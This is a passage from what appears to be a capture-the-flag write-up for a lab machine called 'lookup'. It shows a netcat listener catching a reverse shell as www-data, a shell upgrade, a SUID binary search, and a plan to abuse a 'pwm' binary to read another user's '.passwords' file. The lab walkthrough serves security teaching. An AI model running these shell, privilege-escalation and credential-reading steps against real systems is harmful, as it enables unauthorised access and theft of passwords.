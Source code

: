 ```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.150.247] 58106
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ export TERM=xterm
<kup.thm/public_html/elFinder/php$ export TERM=xterm
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[2]  - continued  nc -lvnp 443

www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as think

### Reverse-engineering the SUID Binary

Checking the machine for any binaries with the `suid` bit set, we find the `/usr/sbin/pwm` binary.

```console
www-data@lookup:/var/www$ find / -perm -u=s 2>/dev/null
...
/usr/sbin/pwm
...
```

Running it, the binary claims to be running the `id` command to find the username, then attempts to open the `/home/<username>/.passwords` file. In our case, it fails because the `/home/www-data/.passwords` file does not exist.

```console
www-data@lookup:/var/www$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

But checking the `/home/think/`, we find that the `.passwords` file exists there. Therefore, we might be able to use the `pwm` binary to read this file and discover the password for the `think` user.

```console
www-data@lookup:/var/www$ ls -la /home/think/
...
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
...
```

First, let's download the `pwm` binary so we can reverse engineer it. To do this, we can simply copy it to one of the web application's directories and download it from the web server.
